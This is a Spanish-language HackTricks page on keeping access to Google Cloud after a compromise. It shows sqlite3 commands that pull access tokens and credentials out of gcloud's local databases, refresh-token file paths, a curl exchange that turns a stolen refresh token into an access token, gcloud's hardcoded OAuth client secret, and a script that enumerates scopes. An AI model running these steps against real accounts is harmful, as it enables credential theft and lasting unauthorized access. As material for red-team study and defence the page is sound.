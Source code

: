 # GCP - Non-svc Persistance

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en github.

</details>
{% endhint %}

Estas son técnicas útiles una vez que, de alguna manera, has comprometido algunas credenciales de GCP o una máquina que se ejecuta en un entorno de GCP.

## Token Hijacking

### Authenticated User Tokens

Para obtener el **token actual** de un usuario, puedes ejecutar:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Consulta en esta página cómo **usar directamente este token usando gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Para obtener los detalles para **generar un nuevo token de acceso** ejecuta:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

También es posible encontrar tokens de actualización en **`$HOME/.config/gcloud/application_default_credentials.json`** y en **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Para obtener un nuevo token de acceso actualizado con el **refresh token**, client ID y client secret, ejecuta:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

La validez de los tokens de actualización se puede gestionar en **Admin** > **Security** > **Google Cloud session control**, y por defecto está configurada a 16h aunque se puede configurar para que nunca expire:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

El flujo de autenticación al usar algo como `gcloud auth login` abrirá un aviso en el navegador y, después de aceptar todos los alcances, el navegador enviará una solicitud como esta al puerto http abierto por la herramienta:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Luego, gcloud usará el estado y el código con un `client_id` hardcoded (`32555940559.apps.googleusercontent.com`) y **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) para obtener los **datos finales del token de actualización**.

{% hint style="danger" %}
Nota que la comunicación con localhost es en HTTP, por lo que es posible interceptar los datos para obtener un token de actualización, sin embargo, estos datos son válidos solo una vez, por lo que sería inútil, es más fácil simplemente leer el token de actualización del archivo.
{% endhint %}

### OAuth Scopes

Puedes encontrar todos los scopes de Google en [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) o obtenerlos ejecutando:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Es posible ver qué alcances puede soportar la aplicación que **`gcloud`** usa para autenticar con este script:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Después de ejecutarlo, se verificó que esta aplicación admite estos alcances:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
es interesante ver cómo esta aplicación soporta el alcance **`drive`**, lo que podría permitir a un usuario escalar de GCP a Workspace si un atacante logra forzar al usuario a generar un token con este alcance.

**Revisa cómo** [**abusar de esto aquí**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Service Accounts

Al igual que con los usuarios autenticados, si logras **comprometer el archivo de clave privada** de una service account, podrás **acceder a ella generalmente tanto tiempo como desees**.\
Sin embargo, si robas el **token OAuth** de una service account, esto puede ser aún más interesante, porque, incluso si por defecto estos tokens son útiles solo por una hora, si la **víctima elimina la clave privada de la API, el token OAuth seguirá siendo válido hasta que expire**.

### Metadata

Obviamente, mientras estés dentro de una máquina que se ejecuta en el entorno de GCP, podrás **acceder a la service account adjunta a esa máquina contactando el endpoint de metadata** (ten en cuenta que los tokens OAuth a los que puedes acceder en este endpoint generalmente están restringidos por alcances).

### Remediaciones

Algunas remediaciones para estas técnicas se explican en [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## References

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
